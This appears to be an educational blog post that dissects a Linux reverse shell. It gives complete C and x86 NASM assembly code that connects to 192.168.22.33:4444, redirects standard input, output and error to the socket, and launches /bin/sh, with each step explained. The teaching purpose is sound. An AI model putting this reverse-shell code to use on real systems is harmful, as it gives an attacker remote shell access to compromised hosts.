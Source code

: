 ```yaml
---
layout: post
title: "Understanding Shellcode: The Reverse Shell"
category: Security
date: 2018-10-30
series: "Understanding Shellcode"
tags:
  - Shellcode
  - Security
---
```

A recent conversation with a coworker inspired me to start putting
together a series of blog posts to examine what it is that shellcode does.  In
the first installment, I'll dissect the basic reverse shell.

First, a couple of reminders: shellcode is the machine code that is injected
into the flow of a program as the result of an exploit.  It generally must be
position independent as you can't usually control where it will be loaded in
memory.  A reverse shell initiates a TCP connection from the compromised host
back to a host under the control of the attacker.  It then launches a shell with
which the attacker can interact.

<!--more-->

## Reverse Shell in C ##

Let's examine a basic reverse shell in C.  Error handling is elided, both for
the space in this post, and because most shellcode is not going to have error
handling.

``` c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

void reverse_shell() {
  /* Allocate a socket for IPv4/TCP (1) */
  int sock = socket(AF_INET, SOCK_STREAM, 0);

  /* Setup the connection structure. (2) */
  struct sockaddr_in sin;
  sin.sin_family = AF_INET;
  sin.sin_port = htons(4444);

  /* Parse the IP address (3) */
  inet_pton(AF_INET, "192.168.22.33", &sin.sin_addr.s_addr);

  /* Connect to the remote host (4) */
  connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

  /* Duplicate the socket to STDIO (5) */
  dup2(sock, STDIN_FILENO);
  dup2(sock, STDOUT_FILENO);
  dup2(sock, STDERR_FILENO);

  /* Setup and execute a shell. (6) */
  char *argv[] = {"/bin/sh", NULL};
  execve("/bin/sh", argv, NULL);
}
```

## Reverse Shell Steps ##

As can be seen, there are approximately 6 steps in setting up a reverse shell.
Once they are understood, this can be converted to proper shellcode.

1. First we need to allocate a socket structure in the kernel with a call to
   `socket`.  This is a wrapper for a system call (since it has effects in
   kernel space).  On x86, this wraps a system call called
   [`socketcall`](http://man7.org/linux/man-pages/man2/socketcall.2.html), which
   is a single entry point for dispatching all socket-related system calls.  On
   x86-64, the different socket system calls are actually distinct system calls,
   so this will call the `socket` system call.  It needs to know the address
   family (`AF_INET` for IPv4) and the socket type (`SOCK_STREAM` for TCP, it
   would be `SOCK_DGRAM` for UDP).  This returns an integer that is a file
   descriptor for the socket.
2. Next, we need to setup a `struct sockaddr_in`, which includes the family
   (`AF_INET` again), and the port number in network byte order (big-endian).
3. We also need to put the IP address into the structure.  `inet_pton` can parse
   a string form into the struct.  In a `struct sockaddr_in`, this is a 4 byte
   value, again in network byte order.
4. We now have the full structure setup, so we can initiate a connection to the
   remote host using the already-created socket.  This is done with a call to
   `connect`.  Like `socket`, this is a wrapper for the `socketcall` system
   call on x86, and for a `connect` system call on x86-64.
5. We want the shell to use our socket when it is handling standard input/output
   (`stdio`) functions.  To do this, we duplicate the file descriptor from the
   socket to each of `STDIN`, `STDOUT`, `STDERR`.  Like so many, `dup2()` is a
   thin wrapper around a system call.
6. Finally, we setup the arguments for our shell, and launch it with `execve`,
   yet another system call.  This one will replace the current binary image with
   the targeted binary (`/bin/sh`) and then execute it from the entry point.  It
   will execute with its standard input, output, and error connected to the
   network socket.

## Why not shellcode in C? ##

So, if we have a working function, why can't we just use that as shellcode?
Well, even if we compile position independent code (`-pie -fPIE` in gcc), this
code will still have many library calls in it.  In a normal program, this is no
problem, as it will be linked with the C library and run fine.  However, this
relies on the loader doing the right thing, including the placement of the [PLT
and GOT](/2017/03/19/got-and-plt-for-pwning.html).  When we inject shellcode, we
only inject the machine code, and don't include any data areas necessary for the
location of the GOT.

What about statically linking the C library to avoid all these problems?  While
that has the potential to work, any constants (like the strings for the IP
address and the shell path) will be located in a different section of the
binary, and so the code will be unable to reference those.  (Unless we inject
that section as well and fixup the relative addresses, but in that case, the
complexity of our loader approaches the complexity of our entire shellcode.)

## Reverse Shell in x86 ##

My shellcode below will be written with the intent of being as clear as possible
as a learning instrument.  Consequently, it is neither the shortest possible
shellcode, nor is it free of "bad characters" (null bytes, newlines, etc.).  It
is also written as NASM assembly.

``` nasm
; Do the steps to setup a socket (1)
; SYS_socket = 1
mov ebx, 1
; Setup the arguments to socket() on the stack.
push 0  ; Flags = 0
push 1  ; SOCK_STREAM = 1
push 2  ; AF_INET = 2
; Move a pointer to these values to ecx for socketcall.
mov ecx, esp
; We're calling SYS_SOCKETCALL
mov eax, 0x66
; Get the socket
int 0x80

; Time to setup the struct sockaddr_in (2), (3)
; push the address so it ends up in network byte order
; 192.168.22.33 == 0xC0A81621
push 0x2116a8c0
; push the port as a short in network-byte order
; 4444 = 0x115c
mov ebx, 0x5c11
push bx
; push the address family, AF_INET = 2
mov ebx, 0x2
push bx

; Let's establish the connection (4)
; Save address of our struct
mov ebx, esp
; Push size of the struct
push 0x10
; Push address of the struct
push ebx
; Push the socketfd
push eax
; Put the pointer into ecx
mov ecx, esp
; We're calling SYS_CONNECT = 3 (via SYS_SOCKETCALL)
mov ebx, 0x3
; Preserve sockfd
push eax
; Call SYS_SOCKETCALL
mov eax, 0x66
; Make the connection
int 0x80

; Let's duplicate the FDs from our socket. (5)
; Load the sockfd
pop ebx
; STDERR
mov ecx, 2
; Calling SYS_DUP2 = 0x3f
mov eax, 0x3f
; Syscall!
int 0x80
; mov to STDOUT
dec ecx
; Reload eax
mov eax, 0x3f
; Syscall!
int 0x80
; mov to STDIN
dec ecx
; Reload eax
mov eax, 0x3f
; Syscall!
int 0x80

; Now time to execve (6)
; push "/bin/sh\0" on the stack
push 0x68732f
push 0x6e69622f
; preserve filename
mov ebx, esp
; array of arguments
mov eax, eax
push eax
push ebx
; pointer to array in ecx
mov ecx, esp
; null envp
xor edx, edx
; call SYS_execve = 0xb
mov eax, 0xb
; execute the shell!
int 0x80
```
